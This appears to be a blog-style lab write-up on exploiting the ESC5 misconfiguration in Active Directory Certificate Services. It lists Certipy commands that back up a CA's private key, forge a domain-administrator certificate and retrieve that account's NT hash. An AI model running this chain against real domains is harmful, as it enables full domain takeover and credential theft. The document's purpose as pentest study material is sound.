

ESC5 ADCS Misconfigurations exploitation — Active Directory Pentesting
Continuing from the ESC4 write-up I made earlier — now that my work is done and I finally have more time to study, I figured I’d dive into ESC5 as well. Honestly, I don’t know why, but learning about Active Directory exploitation feels way more exciting, even though in real-world environments here in Indonesia it’s still pretty rare. Maybe it’s just the idealistic side of me, hahaha. Alright, let’s get into it and learn together.
What is ESC5
ESC5 is an attack that targets Active Directory Certificate Services (ADCS). This attack exploits access to the Certificate Authority (CA). If an attacker gains local administrator rights on the CA server, they can extract the CA certificate along with its private key. With that private key, the attacker can forge malicious certificates for privileged accounts (such as the Domain Administrator). These forged certificates can then be used to authenticate to AD via PKINIT and request a TGT.
Setup Lab
Create an account with any name and add that account as a local administrator on the CA Server (DC01):
net localgroup Administrators "alex.doe" /add
net localgroup Administrators

Emumeration and Exploitation
Enumerate certificates using Certipy with the local administrator account on the CA server.


Backup the CA certificate and private key using Certipy.
certipy ca -backup -u alex.doe@sandbox.local -p "MyPassword123" -ca ignite-DC-CA -target 10.100.150.10
Forge the account we want to take over — in this case, administrator@sandbox.local because it is the domain admin on my target.
certipy forge -ca-pfx 'sandbox-ca.pfx' -upn administrator@sandbox.local
Obtain the NT hash of the administrator@sandbox.local account using Certipy.
certipy auth -pfx administrator_forged.pfx -dc-ip 10.100.150.10


Dump Hash Credentials With Secretdump.py
